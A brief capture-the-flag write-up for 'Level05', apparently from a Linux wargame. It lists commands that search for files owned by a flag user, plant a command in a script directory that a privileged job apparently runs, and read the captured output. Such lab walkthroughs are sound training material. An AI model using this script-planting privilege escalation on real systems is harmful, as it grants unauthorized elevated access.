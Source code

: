 
# Level05

```bash
find / -user flag05 -perm -g=r -type f 2>/dev/null
```

```bash
find / -name level05 -type f 2>/dev/null
```

```bash
echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag.sh
```

```bash
cat /tmp/flag
```
